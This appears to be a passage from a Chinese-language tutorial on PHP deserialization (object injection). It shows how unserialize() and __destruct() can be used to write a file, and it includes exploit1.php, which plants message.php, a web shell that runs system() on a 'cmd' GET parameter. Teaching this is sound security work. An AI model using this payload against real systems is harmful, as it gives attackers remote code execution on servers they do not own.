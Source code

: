 ![](img/206d46843137271506bcb24845105cf0.png)

检查结果

在/file.notphp 中，我们可以找到我们在 exploit.php 文件中设置的内容

因此，由于 PHP 对象是由 unserialize()创建的，所以它在 PHP 代码执行结束时被删除，然后 __destruct()创建了我们想要的文件

如果我们使用下面的代码创建一个序列化的对象会发生什么？

![](img/8b853f9881f3c92d127a14950e0d5273.png)

exploit1.php

```
<?php
class FormSubmit {public $form_file = 'message.php';
public $message = '<?php
    if(isset($_GET[\'cmd\']))
    {
        system($_GET[\'cmd\']);
    }
?>';}print urlencode(serialize(new FormSubmit));
?>
```

这将使用 GET 参数“cmd”通过 system()调用创建一个“message.php”文件，从而允许在目标机器上远程执行代码

![](img/762ed7c22e38a3a5f60f17c5137e5750.png)
